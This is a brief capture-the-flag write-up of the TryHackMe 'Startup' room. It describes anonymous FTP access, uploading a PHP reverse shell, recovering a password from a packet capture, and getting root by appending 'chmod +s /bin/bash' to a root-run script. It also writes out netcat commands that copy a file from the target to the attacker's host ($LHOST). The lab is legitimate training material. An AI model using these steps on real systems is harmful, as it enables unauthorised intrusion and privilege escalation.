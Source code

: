# Startup 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | Easy
Os | Linux

**Notes :**




## Gaining Access 😉

- ftp port is open 
	- run ls -la , we have write permission
	- it can be logined by any ramdom password 
	- ran '?'
	- uploaded a php reverseshell on ftp using put command



## Maintaining Access 🥷
- file found on root incident
	- pcadpng file available
	- downloaded using python simple http
	- found an password enter incident from another user
	- tried the password for lennie
- logged in as lennie (su lennie and ssh lennie@host: both are possible)
- found .sh script owned by root which executes another script owned by lennie
	- /etc/
## Important commands 🔥
- to share files from victim to attacker nc
	- Local: 
		```
		nc -l -p 1234 > suspicious.pcapng
		```

	- Target: 
		 ```
	 	nc -w 3 $LHOST 1234 < suspicious.pcapng
	 	```
- ettercap to read .pcapng files
	-   `ettercap -T -r suspicious.pcapng`
	-   pspy and linpease can be used for further enumeration
	-   `echo "chmod +s /bin/bash" >> print.sh`
	-   /bin/bash 
		-   `/bin/bash -p`

## Post Exploitation ✴️
- /recip.txt
- User flag : /home/lennie/user.txt
- Root flag : /root/root
## Tips 💡
- something


--------------------------------
**By Nibras Muhammed** 🤓🖥️






